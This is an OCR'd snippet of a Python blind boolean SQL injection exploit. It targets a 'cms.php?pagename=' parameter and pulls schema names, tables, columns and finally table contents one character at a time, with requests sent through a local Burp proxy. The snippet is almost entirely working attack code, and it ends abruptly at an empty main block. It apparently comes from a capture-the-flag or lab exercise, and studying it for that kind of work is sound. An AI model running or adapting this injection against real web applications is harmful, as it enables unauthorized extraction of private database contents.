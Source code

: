 ```python
    # SQLI
    # Databases
    #
    # for i in range(1, 150):
    #     for char in chars:
    #         sqlUrl = url + f"""cms.php?pagename=home' and (select substring(group_concat(schema_name),{i},1) from information_schema.schemata)="{char}" '"""
            
              # http://127.0.0.1:8080 --> Burp
    #         r = s.get(sqlUrl, proxies={'http': 'http://127.0.0.1:8080'})

    #         if 'Welcome' in r.text:
    #             databases += char
    #             p.status(databases)
    #             break
    #
    # Tables
    #
    # for i in range(1, 150):
    #     for char in chars:
    #         sqlUrl = url + f"""cms.php?pagename=home' and (select substring(group_concat(table_name),{i},1) from information_schema.tables where table_schema="{db}")="{char}" '"""
            
    #         # http://127.0.0.1:8080 --> Burp
    #         r = s.get(sqlUrl, proxies={'http': 'http://127.0.0.1:8080'})

    #         if 'Welcome' in r.text:
    #             tables += char
    #             p.status(tables)
    #             break
    #
    # Columns
    #
    # for i in range(1, 150):
    #     for char in chars:
    #         sqlUrl = url + f"""cms.php?pagename=home' and (select substring(group_concat(column_name),{i},1) from information_schema.columns where table_schema="{db}" and table_name="{tbl}")="{char}" '"""
            
    #         # http://127.0.0.1:8080 --> Burp
    #         r = s.get(sqlUrl, proxies={'http': 'http://127.0.0.1:8080'})

    #         if 'Welcome' in r.text:
    #             columns += char
    #             p.status(columns)
    #             break
    #
    # Data
    for i in range(1, 150):
        for char in chars:
            sqlUrl = url + f"""cms.php?pagename=home' and (select substring(group_concat({cols}),{i},1) from {db}.{tbl})="{char}" '"""
            
            # http://127.0.0.1:8080 --> Burp
            r = s.get(sqlUrl, proxies={'http': 'http://127.0.0.1:8080'})

            if 'Welcome' in r.text:
                data += char
                p.status(data)
                break

# Main
if __name__ == '__main__':
```